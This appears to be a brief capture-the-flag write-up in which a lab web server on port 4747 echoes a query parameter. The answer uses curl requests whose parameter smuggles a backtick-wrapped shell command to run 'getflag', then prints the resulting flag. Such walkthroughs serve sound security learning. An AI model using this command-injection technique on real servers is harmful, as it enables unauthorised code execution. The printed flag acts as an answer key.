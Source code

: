 HINT:
we notice there is a server running on localhost:4747, now all we have to do is read what the code does and exploit it

ANSWER:
by reading the code we notice that the server is running on localhost:4747, we also notice that it will print the parameter "x" it receives, let's try:
curl 'http://192.168.157.130:4747/?x=uwu'
now we do:
curl 'http://192.168.157.130:4747/?x=getflag'
and it just prints getflag, we need to add ` to make our command start before the echo (https://unix.stackexchange.com/questions/27428/what-does-backquote-backtick-mean-in-commands) so we do:
curl 'http://192.168.157.130:4747/?x=`getflag`'
and we get:
ne2searoevaevoem4ov4ar8ap